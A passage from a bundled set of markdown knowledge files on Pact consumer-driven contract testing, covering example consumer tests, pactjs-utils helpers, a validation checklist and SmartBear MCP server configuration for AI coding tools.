import { getMovies, getMovieById, setApiUrl } from '../../../src/api/movie-client';

const { like, integer, string } = MatchersV3;

const pact = createPact();

describe('Movies API Consumer Contract', () => {
  const movieWithId = { id: 1, name: 'The Matrix', year: 1999, rating: 8.7, director: 'Wachowskis' };

  it('should get a movie by ID', async () => {
    const [stateName, stateParams] = createProviderState(movieExists(movieWithId));

    await pact
      .addInteraction()
      .given(stateName, stateParams)
      .uponReceiving('a request to get movie by ID')
      .withRequest(
        'GET',
        '/movies/1',
        setJsonContent({
          headers: { Accept: 'application/json' },
        }),
      )
      .willRespondWith(
        200,
        setJsonBody(
          like({
            id: integer(1),
            name: string('The Matrix'),
            year: integer(1999),
            rating: like(8.7),
            director: string('Wachowskis'),
          }),
        ),
      )
      .executeTest(async (mockServer: V3MockServer) => {
        // Inject mock server URL into the REAL consumer code
        setApiUrl(mockServer.url);

        // Call the REAL consumer function — this is what CDC testing validates
        const movie = await getMovieById(1);

        expect(movie.id).toBe(1);
        expect(movie.name).toBe('The Matrix');
      });
  });

  it('should handle movie not found', async () => {
    await pact
      .addInteraction()
      .given('No movies exist')
      .uponReceiving('a request for a non-existent movie')
      .withRequest('GET', '/movies/999')
      .willRespondWith(404, setJsonBody({ error: 'Movie not found' }))
      .executeTest(async (mockServer: V3MockServer) => {
        setApiUrl(mockServer.url);

        await expect(getMovieById(999)).rejects.toThrow();
      });
  });
});
```

**Key Points**:

- **CRITICAL**: Always test your REAL consumer code — import and call actual API client functions, never raw `fetch()`
- Using `fetch()` directly only tests that Pact's mock server works, which is meaningless
- Consumer code MUST expose a URL injection mechanism: `setApiUrl()`, env var override, or constructor parameter
- If the consumer code doesn't support URL injection, add it — this is a design prerequisite for CDC testing
- Use PactV4 `addInteraction()` builder (not PactV3 fluent API with `withRequest({...})` object)
- **Interaction naming convention**: Use the pattern `"a request to <action> <resource> [<condition>]"` for `uponReceiving()`. Examples: `"a request to get a movie by ID"`, `"a request to delete a non-existing movie"`, `"a request to create a movie that already exists"`. These names appear in Pact Broker UI and verification logs — keep them descriptive and unique within the consumer-provider pair.
- Use `setJsonContent` for request/response builder callbacks with query/header/body concerns; use `setJsonBody` for body-only response callbacks
- Provider state factory functions (`movieExists`) return `ProviderStateInput` objects
- `createProviderState` converts to `[stateName, stateParams]` tuple for `.given()`

**Common URL injection patterns** (pick whichever fits your consumer architecture):

| Pattern              | Example                                      | Best For              |
| -------------------- | -------------------------------------------- | --------------------- |
| `setApiUrl(url)`     | Mutates axios instance `baseURL`             | Singleton HTTP client |
| Constructor param    | `new ApiClient({ baseUrl: mockServer.url })` | Class-based clients   |
| Environment variable | `process.env.API_URL = mockServer.url`       | Config-driven apps    |
| Factory function     | `createApi({ baseUrl: mockServer.url })`     | Functional patterns   |

---

### Example 8: Support Files

#### Pact Config Factory

```typescript
// tests/contract/support/pact-config.ts
import path from 'node:path';
import { PactV4 } from '@pact-foundation/pact';

export const createPact = (overrides?: { consumer?: string; provider?: string }) =>
  new PactV4({
    dir: path.resolve(process.cwd(), 'pacts'),
    consumer: overrides?.consumer ?? 'MyConsumerApp',
    provider: overrides?.provider ?? 'MyProviderAPI',
    logLevel: 'warn',
  });
```

#### Provider State Factories

```typescript
// tests/contract/support/provider-states.ts
import type { ProviderStateInput } from './consumer-helpers';

export const movieExists = (movie: { id: number; name: string; year: number; rating: number; director: string }): ProviderStateInput => ({
  name: 'An existing movie exists',
  params: movie,
});

export const hasMovieWithId = (id: number): ProviderStateInput => ({
  name: 'Has a movie with a specific ID',
  params: { id },
});
```

#### Local Consumer Helpers Shim

```typescript
// tests/contract/support/consumer-helpers.ts
// TODO(temporary scaffolding): Replace local TemplateHeaders/TemplateQuery types
// with '@seontechnologies/pactjs-utils' exports when available.

type TemplateHeaders = Record<string, string | number | boolean>;
type TemplateQueryValue = string | number | boolean | Array<string | number | boolean>;
type TemplateQuery = Record<string, TemplateQueryValue>;

export type ProviderStateInput = {
  name: string;
  params: Record<string, unknown>;
};

type JsonMap = { [key: string]: boolean | number | string | null | JsonMap | Array<unknown> };
type JsonContentBuilder = {
  headers: (headers: TemplateHeaders) => unknown;
  jsonBody: (body: unknown) => unknown;
  query?: (query: TemplateQuery) => unknown;
};

export type JsonContentInput = {
  body?: unknown;
  headers?: TemplateHeaders;
  query?: TemplateQuery;
};

export const toJsonMap = (obj: Record<string, unknown>): JsonMap =>
  Object.fromEntries(
    Object.entries(obj).map(([key, value]) => {
      if (value === null || value === undefined) return [key, 'null'];
      if (typeof value === 'object' && !(value instanceof Date) && !Array.isArray(value)) return [key, JSON.stringify(value)];
      if (typeof value === 'number' || typeof value === 'boolean') return [key, value];
      if (value instanceof Date) return [key, value.toISOString()];
      return [key, String(value)];
    }),
  );

export const createProviderState = ({ name, params }: ProviderStateInput): [string, JsonMap] => [name, toJsonMap(params)];

export const setJsonContent =
  ({ body, headers, query }: JsonContentInput) =>
  (builder: JsonContentBuilder): void => {
    if (query && builder.query) {
      builder.query(query);
    }

    if (headers) {
      builder.headers(headers);
    }

    if (body !== undefined) {
      builder.jsonBody(body);
    }
  };

export const setJsonBody = (body: unknown) => setJsonContent({ body });
```

**Key Points**:

- If `@seontechnologies/pactjs-utils` is not yet installed, create a local shim that mirrors the API
- Add a TODO comment noting to swap for the published package when available
- The shim exports `createProviderState`, `toJsonMap`, `setJsonContent`, `setJsonBody`, and helper input types
- Keep shim types local (or sourced from public exports only); do not import from internal Pact paths like `@pact-foundation/pact/src/*`

---

### Example 9: .gitignore Entries

**Context**: Pact-specific entries to add to `.gitignore`.

```
# Pact contract testing artifacts
/pacts/
pact-logs/
```

---

## Validation Checklist

Before presenting the consumer CDC framework to the user, verify:

- [ ] `vitest.config.pact.ts` is minimal (no pool/coverage/setup copied from unit config)
- [ ] Script names match pactjs-utils (`test:pact:consumer`, `publish:pact`, `can:i:deploy:consumer`, `record:consumer:deployment`)
- [ ] Scripts source `env-setup.sh` inline in package.json
- [ ] Shell scripts use `pact-broker` not `npx pact-broker`
- [ ] Shell scripts use `PACTICIPANT` env var pattern
- [ ] `can-i-deploy.sh` has `--retry-while-unknown=10 --retry-interval=30`
- [ ] `record-deployment.sh` has branch guard
- [ ] `env-setup.sh` uses `set -eu`; broker scripts use `set -euo pipefail` — each with explanatory comment
- [ ] CI workflow named `contract-test-consumer.yml`
- [ ] CI has workflow-level env block (not per-step)
- [ ] CI has `detect-breaking-change` step before install
- [ ] CI step numbering skips (3) — webhook-triggered provider verification
- [ ] CI can-i-deploy has `PACT_BREAKING_CHANGE != 'true'` condition
- [ ] CI has NO upload-artifact step
- [ ] `.github/actions/detect-breaking-change/action.yml` exists
- [ ] Consumer tests use `.pacttest.ts` extension
- [ ] Consumer tests use PactV4 `addInteraction()` builder
- [ ] `uponReceiving()` names follow `"a request to <action> <resource> [<condition>]"` pattern and are unique within the consumer-provider pair
- [ ] Interaction callbacks use `setJsonContent` for query/header/body and `setJsonBody` for body-only responses
- [ ] Request bodies use exact values (no `like()` wrapper) — Postel's Law: be strict in what you send
- [ ] `like()`, `eachLike()`, `string()`, `integer()` matchers are only used in `willRespondWith` (responses), not in `withRequest` (requests) — matchers check type/shape, not exact values
- [ ] Consumer tests call REAL consumer code (actual API client functions), NOT raw `fetch()`
- [ ] Consumer code exposes URL injection mechanism (`setApiUrl()`, env var, or constructor param)
- [ ] Local consumer-helpers shim present if pactjs-utils not installed
- [ ] `.gitignore` includes `/pacts/` and `pact-logs/`

## Related Fragments

- `pactjs-utils-overview.md` — Library decision tree and installation
- `pactjs-utils-consumer-helpers.md` — `createProviderState`, `toJsonMap`, `setJsonContent`, and `setJsonBody` API details
- `pactjs-utils-provider-verifier.md` — Provider-side verification patterns
- `pactjs-utils-request-filter.md` — Auth injection for provider verification
- `contract-testing.md` — Foundational CDC patterns and resilience coverage
```

## File: `src/agents/bmad-tea/resources/knowledge/pact-mcp.md`
```markdown
# Pact MCP Server (SmartBear)

## Principle

Use the SmartBear MCP server to enable AI agent interaction with PactFlow/Pact Broker during contract testing workflows. The MCP server provides tools for generating pact tests, fetching provider states, reviewing test quality, and checking deployment safety — all accessible through the Model Context Protocol.

## Rationale

### Why MCP for contract testing?

- **Live broker queries**: AI agents can fetch existing provider states, verification results, and deployment status directly from PactFlow
- **Test generation assistance**: MCP tools generate consumer and provider tests based on existing contracts, OpenAPI specs, or templates
- **Automated review**: MCP-powered review checks tests against best practices without manual inspection
- **Deployment safety**: `can-i-deploy` checks integrated into agent workflows for real-time compatibility verification

### When TEA uses it

- **test-design workflow**: Fetch existing provider states to understand current contract landscape
- **automate workflow**: Generate pact tests using broker knowledge and existing contracts
- **test-review workflow**: Review pact tests against best practices with automated feedback
- **ci workflow**: Reference can-i-deploy and matrix tools for pipeline guidance

## Available Tools

| #   | Tool                      | Description                                                             | When Used             |
| --- | ------------------------- | ----------------------------------------------------------------------- | --------------------- |
| 1   | **Generate Pact Tests**   | Create consumer/provider tests from code, OpenAPI, or templates         | automate workflow     |
| 2   | **Fetch Provider States** | List all provider states from broker for a given consumer-provider pair | test-design, automate |
| 3   | **Review Pact Tests**     | Analyze tests against contract testing best practices                   | test-review           |
| 4   | **Can I Deploy**          | Check deployment safety via broker verification matrix                  | ci workflow           |
| 5   | **Matrix**                | Query consumer-provider verification matrix                             | ci, test-design       |
| 6   | **PactFlow AI Status**    | Check AI credits and permissions (PactFlow Cloud only)                  | diagnostics           |
| 7   | **Metrics - All**         | Workspace-wide contract testing metrics                                 | reporting             |
| 8   | **Metrics - Team**        | Team-level adoption statistics (PactFlow Cloud only)                    | reporting             |

## Installation

### Config file locations

| Tool              | Global Config File                    | Format                 |
| ----------------- | ------------------------------------- | ---------------------- |
| Claude Code       | `~/.claude.json`                      | JSON (`mcpServers`)    |
| Codex             | `~/.codex/config.toml`                | TOML (`[mcp_servers]`) |
| Gemini CLI        | `~/.gemini/settings.json`             | JSON (`mcpServers`)    |
| Cursor            | `~/.cursor/mcp.json`                  | JSON (`mcpServers`)    |
| Windsurf          | `~/.codeium/windsurf/mcp_config.json` | JSON (`mcpServers`)    |
| VS Code (Copilot) | `.vscode/mcp.json`                    | JSON (`servers`)       |

> **Claude Code tip**: Prefer the `claude mcp add` CLI over manual JSON editing. Use `-s user` for global (all projects) or omit for per-project (default).

### CLI shortcuts (Claude Code and Codex)

```bash
# Claude Code — use add-json for servers with env vars (-s user = global)
claude mcp add-json -s user smartbear \
  '{"type":"stdio","command":"npx","args":["-y","@smartbear/mcp@latest"],"env":{"PACT_BROKER_BASE_URL":"https://{tenant}.pactflow.io","PACT_BROKER_TOKEN":"<your-token>"}}'

# Codex
codex mcp add smartbear -- npx -y @smartbear/mcp@latest
```

### JSON config (Gemini CLI, Cursor, Windsurf)

Add a `"smartbear"` entry to the `mcpServers` object in the config file for your tool:

```json
{
  "mcpServers": {
    "smartbear": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@smartbear/mcp@latest"],
      "env": {
        "PACT_BROKER_BASE_URL": "https://{tenant}.pactflow.io",
        "PACT_BROKER_TOKEN": "<your-api-token>"
      }
    }
  }
}
```

### Codex TOML config

Codex uses TOML instead of JSON. Add to `~/.codex/config.toml`:

```toml
[mcp_servers.smartbear]
command = "npx"
args = ["-y", "@smartbear/mcp@latest"]

[mcp_servers.smartbear.env]
PACT_BROKER_BASE_URL = "https://{tenant}.pactflow.io"
PACT_BROKER_TOKEN = "<your-api-token>"
```

Note the key is `mcp_servers` (underscored), not `mcpServers`.

### VS Code (GitHub Copilot)

Add to `.vscode/mcp.json` (note: uses `servers` key, not `mcpServers`):

```json
{
  "servers": {
    "smartbear": {
      "type": "stdio",
      "command": "npx",
      "args": ["-y", "@smartbear/mcp@latest"],
      "env": {
        "PACT_BROKER_BASE_URL": "https://{tenant}.pactflow.io",
        "PACT_BROKER_TOKEN": "${input:pactToken}"
      }
    }
  }
}
```

> **Note**: Set either `PACT_BROKER_TOKEN` (for PactFlow) or `PACT_BROKER_USERNAME`+`PACT_BROKER_PASSWORD` (for self-hosted). Leave unused vars empty.

## Required Environment Variables

| Variable               | Required                     | Description                             |
| ---------------------- | ---------------------------- | --------------------------------------- |
| `PACT_BROKER_BASE_URL` | Yes (for Pact features)      | PactFlow or self-hosted Pact Broker URL |
| `PACT_BROKER_TOKEN`    | For PactFlow / token auth    | API token for broker authentication     |
| `PACT_BROKER_USERNAME` | For basic auth (self-hosted) | Username for basic authentication       |
| `PACT_BROKER_PASSWORD` | For basic auth (self-hosted) | Password for basic authentication       |

**Authentication**: Use token auth (`PACT_BROKER_TOKEN`) for PactFlow. Use basic auth (`PACT_BROKER_USERNAME` + `PACT_BROKER_PASSWORD`) for self-hosted Pact Broker instances. Only one auth method is needed.

**Requirements**: Node.js 20+

## Pattern Examples

### Example 1: Fetching Provider States During Test Design

When designing contract tests, use MCP to query existing provider states:

```
# Agent queries SmartBear MCP during test-design workflow:
# → Fetch Provider States for consumer="movie-web", provider="SampleMoviesAPI"
# ← Returns: ["movie with id 1 exists", "no movies exist", "user is authenticated"]
#
# Agent uses this to generate comprehensive consumer tests covering all states
```

### Example 2: Reviewing Pact Tests

During test-review workflow, use MCP to evaluate test quality:

```
# Agent submits test file to SmartBear MCP Review tool:
# → Review Pact Tests with test file content
# ← Returns: feedback on matcher usage, state coverage, interaction naming
#
# Agent incorporates feedback into review report
```

### Example 3: Can I Deploy Check in CI

During CI workflow design, reference the can-i-deploy tool:

```
# Agent generates CI pipeline with can-i-deploy gate:
# → Can I Deploy: pacticipant="SampleMoviesAPI", version="${GITHUB_SHA}", to="production"
# ← Returns: { ok: true/false, reason: "..." }
#
# Agent designs pipeline to block deployment if can-i-deploy fails
```

## Key Points

- **Per-project install recommended**: Different projects may target different PactFlow tenants — match TEA's per-project config philosophy
- **Env vars are project-specific**: `PACT_BROKER_BASE_URL` and `PACT_BROKER_TOKEN` vary by project/team
- **Node.js 20+ required**: SmartBear MCP server requires Node.js 20 or higher
- **PactFlow Cloud features**: Some tools (AI Status, Team Metrics) are only available with PactFlow Cloud, not self-hosted Pact Broker
- **Complements pactjs-utils**: MCP provides broker interaction during design/review; pactjs-utils provides runtime utilities for test code

## Related Fragments

- `pactjs-utils-overview.md` — runtime utilities that pact tests import
- `pactjs-utils-provider-verifier.md` — verifier options that reference broker config
- `contract-testing.md` — foundational contract testing patterns

## Anti-Patterns

### Wrong: Using MCP for runtime test execution

```
# ❌ Don't use MCP to run pact tests — use npm scripts and CI pipelines
# MCP is for agent-assisted design, generation, and review
```

### Right: Use MCP for design-time assistance

```
# ✅ Use MCP during planning and review:
# - Fetch provider states to inform test design
# - Generate test scaffolds from existing contracts
# - Review tests for best practice compliance
# - Check can-i-deploy during CI pipeline design
```

_Source: SmartBear MCP documentation, PactFlow developer docs_
```

## File: `src/agents/bmad-tea/resources/knowledge/pactjs-utils-consumer-helpers.md`
```markdown
# Pact.js Utils Consumer Helpers

## Principle

Use `createProviderState`, `toJsonMap`, `setJsonContent`, and `setJsonBody` from `@seontechnologies/pactjs-utils` to build type-safe provider state tuples and reusable PactV4 JSON callbacks for consumer contract tests. These helpers eliminate manual `JsonMap` casting and repetitive inline builder lambdas.

## Rationale

### Problems with raw consumer helper handling

- **JsonMap requirement**: Pact's `.given(stateName, params)` requires `params` to be `JsonMap` — a flat object where every value must be `string | number | boolean | null`
- **Type gymnastics**: Complex params (Date objects, nested objects, null values) require manual casting that TypeScript can't verify
- **Inconsistent serialization**: Different developers serialize the same data differently (e.g., dates as ISO strings vs timestamps)
- **Verbose `.given()` calls**: Repeating state name and params inline makes consumer tests harder to read
- **Repeated interaction callbacks**: PactV4 interactions duplicate inline `(builder) => { ... }` blocks for body/query/header setup

### Solutions

- **`createProviderState`**: Returns a `[string, JsonMap]` tuple that spreads directly into `.given()` — one function handles name and params
- **`toJsonMap`**: Explicit coercion rules documented and tested — Date→ISO string, null→"null" string, nested objects→JSON string
- **`setJsonContent`**: Curried callback helper for request/response builders — set `query`, `headers`, and/or `body` from one reusable function
- **`setJsonBody`**: Body-only shorthand for `setJsonContent({ body })` — ideal for concise `.willRespondWith(...)` bodies

## Pattern Examples

### Example 1: Basic Provider State Creation

```typescript
import { PactV3, MatchersV3 } from '@pact-foundation/pact';
import { createProviderState } from '@seontechnologies/pactjs-utils';

const provider = new PactV3({
  consumer: 'movie-web',
  provider: 'SampleMoviesAPI',
  dir: './pacts',
});

describe('Movie API Contract', () => {
  it('should return movie by id', async () => {
    // createProviderState returns [stateName, JsonMap] tuple
    const providerState = createProviderState({
      name: 'movie with id 1 exists',
      params: { id: 1, name: 'Inception', year: 2010 },
    });

    await provider
      .given(...providerState) // Spread tuple into .given(name, params)
      .uponReceiving('a request for movie 1')
      .withRequest({ method: 'GET', path: '/movies/1' })
      .willRespondWith({
        status: 200,
        body: MatchersV3.like({ id: 1, name: 'Inception', year: 2010 }),
      })
      .executeTest(async (mockServer) => {
        const res = await fetch(`${mockServer.url}/movies/1`);
        const movie = await res.json();
        expect(movie.name).toBe('Inception');
      });
  });
});
```

**Key Points**:

- `createProviderState` accepts `{ name: string, params: Record<string, unknown> }`
- Both `name` and `params` are required (pass `params: {}` for states without parameters)
- Returns `[string, JsonMap]` — spread with `...` into `.given()`
- `params` values are automatically converted to JsonMap-compatible types
- Works identically with HTTP (`PactV3`) and message (`MessageConsumerPact`) pacts

### Example 2: Complex Parameters with toJsonMap

```typescript
import { toJsonMap } from '@seontechnologies/pactjs-utils';

// toJsonMap conversion rules:
// - string, number, boolean → passed through
// - null → "null" (string)
// - undefined → "null" (string, same as null)
// - Date → ISO string (e.g., "2025-01-15T10:00:00.000Z")
// - nested object → JSON string
// - array → comma-separated string via String() (e.g., [1,2,3] → "1,2,3")

const params = toJsonMap({
  id: 42,
  name: 'John Doe',
  active: true,
  score: null,
  createdAt: new Date('2025-01-15T10:00:00Z'),
  metadata: { role: 'admin', permissions: ['read', 'write'] },
});

// Result:
// {
//   id: 42,
//   name: "John Doe",
//   active: true,
//   score: "null",
//   createdAt: "2025-01-15T10:00:00.000Z",
//   metadata: '{"role":"admin","permissions":["read","write"]}'
// }
```

**Key Points**:

- `toJsonMap` is called internally by `createProviderState` — you rarely need it directly
- Use it when you need explicit control over parameter conversion outside of provider states
- Conversion rules are deterministic: same input always produces same output

### Example 3: Provider State Without Parameters

```typescript
import { createProviderState } from '@seontechnologies/pactjs-utils';

// State without params — second tuple element is empty object
const emptyState = createProviderState({ name: 'no movies exist', params: {} });
// Returns: ['no movies exist', {}]

await provider
  .given(...emptyState)
  .uponReceiving('a request when no movies exist')
  .withRequest({ method: 'GET', path: '/movies' })
  .willRespondWith({ status: 200, body: [] })
  .executeTest(async (mockServer) => {
    const res = await fetch(`${mockServer.url}/movies`);
    const movies = await res.json();
    expect(movies).toEqual([]);
  });
```

### Example 4: Multiple Provider States

```typescript
import { createProviderState } from '@seontechnologies/pactjs-utils';

// Some interactions require multiple provider states
// Call .given() multiple times with different states
await provider
  .given(...createProviderState({ name: 'user is authenticated', params: { userId: 1 } }))
  .given(...createProviderState({ name: 'movie with id 5 exists', params: { id: 5 } }))
  .uponReceiving('an authenticated request for movie 5')
  .withRequest({
    method: 'GET',
    path: '/movies/5',
    headers: { Authorization: MatchersV3.like('Bearer token') },
  })
  .willRespondWith({ status: 200, body: MatchersV3.like({ id: 5 }) })
  .executeTest(async (mockServer) => {
    // test implementation
  });
```

### Example 5: When to Use setJsonBody vs setJsonContent

```typescript
import { MatchersV3 } from '@pact-foundation/pact';
import { setJsonBody, setJsonContent } from '@seontechnologies/pactjs-utils';

const { integer, string } = MatchersV3;

await pact
  .addInteraction()
  .given('movie exists')
  .uponReceiving('a request to get movie by name')
  .withRequest(
    'GET',
    '/movies',
    setJsonContent({
      query: { name: 'Inception' },
      headers: { Accept: 'application/json' },
    }),
  )
  .willRespondWith(
    200,
    setJsonBody({
      status: 200,
      data: { id: integer(1), name: string('Inception') },
    }),
  );
```

**Key Points**:

- Use `setJsonContent` when the interaction needs `query`, `headers`, and/or `body` in one callback (most request builders)
- Use `setJsonBody` when you only need `jsonBody` and want the shorter `.willRespondWith(status, setJsonBody(...))` form
- `setJsonBody` is equivalent to `setJsonContent({ body: ... })`

## Key Points

- **Spread pattern**: Always use `...createProviderState()` — the tuple spreads into `.given(stateName, params)`
- **Type safety**: TypeScript enforces `{ name: string, params: Record<string, unknown> }` input (both fields required)
- **Null handling**: `null` becomes `"null"` string in JsonMap (Pact requirement)
- **Date handling**: Date objects become ISO 8601 strings
- **No nested objects in JsonMap**: Nested objects are JSON-stringified — provider state handlers must parse them
- **Array serialization is lossy**: Arrays are converted via `String()` (e.g., `[1,2,3]` → `"1,2,3"`) — prefer passing arrays as JSON-stringified objects for round-trip safety
- **Message pacts**: Works identically with `MessageConsumerPact` — same `.given()` API
- **Builder reuse**: `setJsonContent` works for both `.withRequest(...)` and `.willRespondWith(...)` callbacks (query is ignored on response builders)
- **Body shorthand**: `setJsonBody` keeps body-only responses concise and readable
- **Matchers check type, not value**: `string('My movie')` means "any string", `integer(1)` means "any integer". The example values are arbitrary — the provider can return different values and verification still passes as long as the type matches. Use matchers only in `.willRespondWith()` (responses), never in `.withRequest()` (requests) — Postel's Law applies.
- **Reuse test values across files**: Interactions are uniquely identified by `uponReceiving` + `.given()`, not by placeholder values. Two test files can both use `testId: 100` without conflicting. On the provider side, shared values simplify state handlers — idempotent handlers (check if exists, create if not) only need to ensure one record exists. Use different values only when testing different states of the same entity type (e.g., `movieExists(100)` for happy paths vs. `movieNotFound(999)` for error paths).

## Related Fragments

- `pactjs-utils-overview.md` — installation, decision tree, design philosophy
- `pactjs-utils-provider-verifier.md` — provider-side state handler implementation
- `contract-testing.md` — foundational patterns with raw Pact.js

## Anti-Patterns

### Wrong: Manual JsonMap assembly

```typescript
// ❌ Manual casting — verbose, error-prone, no type safety
provider.given('user exists', {
  id: 1 as unknown as string,
  createdAt: new Date().toISOString(),
  metadata: JSON.stringify({ role: 'admin' }),
} as JsonMap);
```

### Right: Use createProviderState

```typescript
// ✅ Automatic conversion with type safety
provider.given(
  ...createProviderState({
    name: 'user exists',
    params: { id: 1, createdAt: new Date(), metadata: { role: 'admin' } },
  }),
);
```

### Wrong: Inline state names without helper

```typescript
// ❌ Duplicated state names between consumer and provider — easy to mismatch
provider.given('a user with id 1 exists', { id: '1' });
// Later in provider: 'user with id 1 exists' — different string!
```

### Right: Share state constants

```typescript
// ✅ Define state names as constants shared between consumer and provider
const STATES = {
  USER_EXISTS: 'user with id exists',
  NO_USERS: 'no users exist',
} as const;

provider.given(...createProviderState({ name: STATES.USER_EXISTS, params: { id: 1 } }));
```

### Wrong: Repeating inline builder lambdas everywhere

```typescript
// ❌ Repetitive callback boilerplate in every interaction
.willRespondWith(200, (builder) => {
  builder.jsonBody({ status: 200 });
});
```

### Right: Use setJsonBody / setJsonContent

```typescript
// ✅ Reusable callbacks with less boilerplate
.withRequest('GET', '/movies', setJsonContent({ query: { name: 'Inception' } }))
.willRespondWith(200, setJsonBody({ status: 200 }));
```

_Source: @seontechnologies/pactjs-utils consumer-helpers module, pactjs-utils sample-app consumer tests_
```

## File: `src/agents/bmad-tea/resources/knowledge/pactjs-utils-overview.md`
```markdown
# Pact.js Utils Overview

## Principle

Use production-ready utilities from `@seontechnologies/pactjs-utils` to eliminate boilerplate in consumer-driven contract testing. The library wraps `@pact-foundation/pact` with type-safe helpers for provider state creation, PactV4 JSON interaction builders, verifier configuration, and request filter injection — working equally well for HTTP and message (async/Kafka) contracts.

## Rationale

### Problems with raw @pact-foundation/pact

- **JsonMap casting**: Provider state parameters require `JsonMap` type — manually casting every value is error-prone and verbose
- **Repeated builder lambdas**: PactV4 interactions often repeat inline callbacks with `builder.query(...)`, `builder.headers(...)`, and `builder.jsonBody(...)`
- **Verifier configuration sprawl**: `VerifierOptions` requires 30+ lines of scattered configuration (broker URL, selectors, state handlers, request filters, version tags)
- **Environment variable juggling**: Different env vars for local vs remote flows, breaking change coordination, payload URL matching
- **Express middleware types**: Request filter requires Express types that aren't re-exported from Pact
- **Bearer prefix bugs**: Easy to double-prefix tokens as `Bearer Bearer ...` in request filters
- **CI version tagging**: Manual logic to extract branch/tag info from CI environment

### Solutions from pactjs-utils

- **`createProviderState`**: One-call tuple builder for `.given()` — handles all JsonMap conversion automatically
- **`toJsonMap`**: Explicit type coercion (null→"null", Date→ISO string, nested objects flattened)
- **`setJsonContent`**: Curried callback helper for PactV4 `.withRequest(...)` / `.willRespondWith(...)` builders (query/headers/body)
- **`setJsonBody`**: Body-only shorthand alias of `setJsonContent({ body })`
- **`buildVerifierOptions`**: Single function assembles complete VerifierOptions from minimal inputs — handles local/remote/BDCT flows
- **`buildMessageVerifierOptions`**: Same as above but for message/Kafka provider verification
- **`handlePactBrokerUrlAndSelectors`**: Resolves broker URL and consumer version selectors from env vars with breaking change awareness
- **`getProviderVersionTags`**: CI-aware version tagging (extracts branch/tag from GitHub Actions, GitLab CI, etc.)
- **`createRequestFilter`**: Pluggable token generator pattern — prevents double-Bearer bugs by contract
- **`noOpRequestFilter`**: Pass-through for providers that don't require auth injection

## Installation

```bash
npm install -D @seontechnologies/pactjs-utils

# Peer dependency
npm install -D @pact-foundation/pact
```

**Requirements**: `@pact-foundation/pact` >= 16.2.0, Node.js >= 18

## Available Utilities

| Category          | Function                          | Description                                          | Use Case                                                         |
| ----------------- | --------------------------------- | ---------------------------------------------------- | ---------------------------------------------------------------- |
| Consumer Helpers  | `createProviderState`             | Builds `[stateName, JsonMap]` tuple from typed input | Consumer tests: `.given(...createProviderState(input))`          |
| Consumer Helpers  | `toJsonMap`                       | Converts any object to Pact-compatible `JsonMap`     | Explicit type coercion for provider state params                 |
| Consumer Helpers  | `setJsonContent`                  | Curried request/response JSON callback helper        | PactV4 `.withRequest(...)` and `.willRespondWith(...)` builders  |
| Consumer Helpers  | `setJsonBody`                     | Body-only alias of `setJsonContent`                  | Body-only `.willRespondWith(...)` responses                      |
| Provider Verifier | `buildVerifierOptions`            | Assembles complete HTTP `VerifierOptions`            | Provider verification: `new Verifier(buildVerifierOptions(...))` |
| Provider Verifier | `buildMessageVerifierOptions`     | Assembles message `VerifierOptions`                  | Kafka/async provider verification                                |
| Provider Verifier | `handlePactBrokerUrlAndSelectors` | Resolves broker URL + selectors from env vars        | Env-aware broker configuration                                   |
| Provider Verifier | `getProviderVersionTags`          | CI-aware version tag extraction                      | Provider version tagging in CI                                   |
| Request Filter    | `createRequestFilter`             | Express middleware with pluggable token generator    | Auth injection for provider verification                         |
| Request Filter    | `noOpRequestFilter`               | Pass-through filter (no-op)                          | Providers without auth requirements                              |

## Decision Tree: Which Flow?

```
Is this a monorepo (consumer + provider in same repo)?
├── YES → Local Flow
│   - Consumer generates pact files to ./pacts/
│   - Provider reads pact files from ./pacts/ (no broker needed)
│   - Use buildVerifierOptions with pactUrls option
│
└── NO → Do you have a Pact Broker / PactFlow?
    ├── YES → Remote (CDCT) Flow
    │   - Consumer publishes pacts to broker
    │   - Provider verifies from broker
    │   - Use buildVerifierOptions with broker config
    │   - Set PACT_BROKER_BASE_URL + PACT_BROKER_TOKEN
    │
    └── Do you have an OpenAPI spec?
        ├── YES → BDCT Flow (PactFlow only)
        │   - Provider publishes OpenAPI spec to PactFlow
        │   - PactFlow cross-validates consumer pacts against spec
        │   - No provider verification test needed
        │
        └── NO → Start with Local Flow, migrate to Remote later
```

## Design Philosophy

1. **One-call setup**: Each utility does one thing completely — no multi-step assembly required
2. **Environment-aware**: Utilities read env vars for CI/CD integration without manual wiring
3. **Type-safe**: Full TypeScript types for all inputs and outputs, exported for consumer use
4. **Fail-safe defaults**: Sensible defaults that work locally; env vars override for CI
5. **Composable**: Utilities work independently — use only what you need

## Pattern Examples

### Example 1: Minimal Consumer Test

```typescript
import { PactV3 } from '@pact-foundation/pact';
import { createProviderState } from '@seontechnologies/pactjs-utils';

const provider = new PactV3({
  consumer: 'my-frontend',
  provider: 'my-api',
  dir: './pacts',
});

it('should get user by id', async () => {
  await provider
    .given(...createProviderState({ name: 'user exists', params: { id: 1 } }))
    .uponReceiving('a request for user 1')
    .withRequest({ method: 'GET', path: '/users/1' })
    .willRespondWith({ status: 200, body: { id: 1, name: 'John' } })
    .executeTest(async (mockServer) => {
      const res = await fetch(`${mockServer.url}/users/1`);
      expect(res.status).toBe(200);
    });
});
```

### Example 2: Minimal Provider Verification

```typescript
import { Verifier } from '@pact-foundation/pact';
import { buildVerifierOptions, createRequestFilter } from '@seontechnologies/pactjs-utils';

const opts = buildVerifierOptions({
  provider: 'my-api',
  port: '3001',
  includeMainAndDeployed: true,
  stateHandlers: {
    'user exists': async (params) => {
      await db.seed({ users: [{ id: params?.id }] });
    },
  },
  requestFilter: createRequestFilter({
    tokenGenerator: () => 'test-token-123',
  }),
});

await new Verifier(opts).verifyProvider();
```

## Key Points

- **Import path**: Always use `@seontechnologies/pactjs-utils` (no subpath exports)
- **Peer dependency**: `@pact-foundation/pact` must be installed separately
- **Local flow**: No broker needed — set `pactUrls` in verifier options pointing to local pact files
- **Remote flow**: Set `PACT_BROKER_BASE_URL` and `PACT_BROKER_TOKEN` env vars
- **Breaking changes**: Set `includeMainAndDeployed: false` when coordinating breaking changes (verifies only matchingBranch)
- **Builder helpers**: Use `setJsonContent` when you need query/headers/body together; use `setJsonBody` for body-only callbacks
- **Type exports**: Library exports `StateHandlers`, `RequestFilter`, `JsonMap`, `JsonContentInput`, `ConsumerVersionSelector` types

## Related Fragments

- `pactjs-utils-consumer-helpers.md` — detailed createProviderState, toJsonMap, setJsonContent, and setJsonBody usage
- `pactjs-utils-provider-verifier.md` — detailed buildVerifierOptions and broker configuration
- `pactjs-utils-request-filter.md` — detailed createRequestFilter and auth patterns
